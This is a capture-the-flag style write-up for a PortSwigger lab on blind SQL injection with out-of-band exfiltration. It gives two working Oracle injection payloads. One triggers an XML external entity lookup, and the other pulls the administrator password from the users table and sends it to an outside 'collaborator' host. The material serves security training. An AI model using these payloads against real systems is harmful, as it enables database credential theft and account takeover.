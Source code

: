 # [Lab: Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

## Lab

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Solutions

1. Detect OOB interaction:

    - oracle:

    ```sql
    'UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//collaborator/">+%25remote%3b]>'),'/l')+FROM+dual--;
    ```

2. Exploit SQLi OOB:

    ```sql
    TrackingId='+OR+'1'%3d'1'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.collaborator/">+%25remote%3b]>'),'/l')+FROM+dual--;
    ```

3. Check collaborator:
    ![result.png](./../img/lab-16-result.png)
4. Login to admin account => Lab Solved.

